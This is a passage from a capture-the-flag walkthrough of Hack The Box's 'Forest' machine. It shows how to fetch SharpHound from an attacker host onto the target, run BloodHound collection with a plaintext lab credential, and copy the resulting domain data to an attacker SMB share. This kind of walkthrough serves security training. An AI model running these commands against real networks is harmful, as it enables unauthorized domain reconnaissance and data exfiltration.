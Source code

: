 **4.1 From svc-alfresco to Administrator.**

Since we are in Active Directory Domain, it is the time to walk the dog. 

**Bloodhound** will reveal hidden and often unintended relationships within an Active Directory environment, giving you the shortest attack paths.

first you need to install bloodhound on your machine 

    sudo apt install bloodhound
    git clone https://github.com/BloodHoundAD/BloodHound.git

then setup a python server in  this directory **/BloodHound/Ingestors/**  then  download it from the machine and execute/import it.

    powershell iwr -outf Sharphound.ps1 [http://10.10.14.17:8000/SharpHound.ps1](http://10.10.14.17:8000/SharpHound.ps1)
    .\SharpHound.ps1
    Import-module .\SharpHound.ps1
    

    Invoke-BloodHound -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice -CollectionMethod All -DomainController htb.local -ZipFileName forest.zip

![/images/forest/forest.png](/images/forest/forest.png)

So what are these options for:

- -Domain - Is the domain we want to gather objects from. which is in our case is htb.local
- -LDAPUser/LDAPPass - are the username/password of the the user in the specified domain.
- -DomainController - Specifiy the domain controller.
- -CollectionMethod All -  Tells bloodhound to collect all possible information about object(Users/Computers/Domains/Groups/..) in the current domain.
- -ZipFileName - specify the name of the zip output.

Now we have a forest.zip file, we need to transfer it to our machine. You can use impacket-smbserver on you machine to setup a shared folder then you can copy the ZIP from the machine to you shared folder.

**Setup** **a shre** **on your machine:**

    impacket-smbserver files ~/Desktop      //files is the name of the share  , ~/Desktop is the path of the share to add

**Copy the ZIP to you machine , from the forest machine:**

    cp forest.zip \\<your_ip>\<name_of_share>

Now you have the forest.zip on your Desktop.

### **Exploring the forest**

Start neo4j service 

    sudo service neo4j console
    bloodhound

Upload the [forest.zip](http://forest.zip) file to bloodhound

Bloodhound has built-in queries you can choose from, we are going to use "  find the shortest path to domain admin"
